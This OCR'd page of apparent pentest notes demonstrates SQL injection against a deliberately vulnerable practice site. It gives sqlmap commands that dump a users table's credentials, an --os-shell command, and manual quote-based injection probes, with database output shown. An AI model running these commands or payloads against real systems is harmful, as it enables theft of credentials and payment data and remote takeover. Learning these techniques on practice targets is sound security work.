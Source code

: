 	Database: acuart
	[8 tables]
	+-----------+
	| artists   |
	| carts     |
	| categ     |
	| featured  |
	| guestbook |
	| pictures  |
	| products  |
	| users     |
	+-----------+
o	sqlmap -r sql.txt -D acuart -T users --columns --dump
	Database: acuart
	Table: users
	[8 columns]
	+---------+--------------+
	| Column  | Type         |
	+---------+--------------+
	| address | mediumtext   |
	| cart    | varchar(100) |
	| cc      | varchar(100) |
	| email   | varchar(100) |
	| name    | varchar(100) |
	| pass    | varchar(100) |
	| phone   | varchar(100) |
	| uname   | varchar(100) |
	+---------+--------------+
o	sqlmap -r sql.txt -D acuart -T users -C uname, pass –dump
	Database: acuart
	Table: users
	[1 entry]
	+-------+------+
	| uname | pass |
	+-------+------+
	|  test | test |
	+-------+------+
o	It is critical vulnerability; anyone can steal database.
o	Remote Code Execution (RCE)
	Attackers remotely execute commands to place malware or other malicious code on your computer or network.
	sqlmap -r sql.txt --os-shell
•	Can get root privileges if it is vulnerable.

•	Exploit only using address bar | Manual Injection
o	For http://testphp.vulnweb.com/artists.php?artist=1
o	Check whether it is vulnerable or not.
	Error base technique by adding symbol at the end of input which will try to break the query. Symbols include:
•	Single quote (') - used to close a string and cause a syntax error.
•	Quote (") - used to close a string and cause a syntax error.
•	Parentheses () - used to group and order the statements, which can cause a syntax error if not closed properly.
•	Dash (-) - used to comment out the rest of a line, which can cause a syntax error if not closed properly.
•	Semicolon (;) - used to separate multiple SQL statements, which can cause a syntax error if not closed properly
•	Union operator (UNION) - used to combine the results of two or more SELECT statements, which can cause a syntax error if not used correctly.
•	Logical operators (AND, OR, NOT) - used to combine or negate conditions in a SQL statement, which can cause a syntax error if not used correctly.
•	Wildcard characters (%) and (_) - used to match any number of characters or a single character respectively, which can cause a syntax error if not used correctly.
	http://testphp.vulnweb.com/artists.php?artist=1’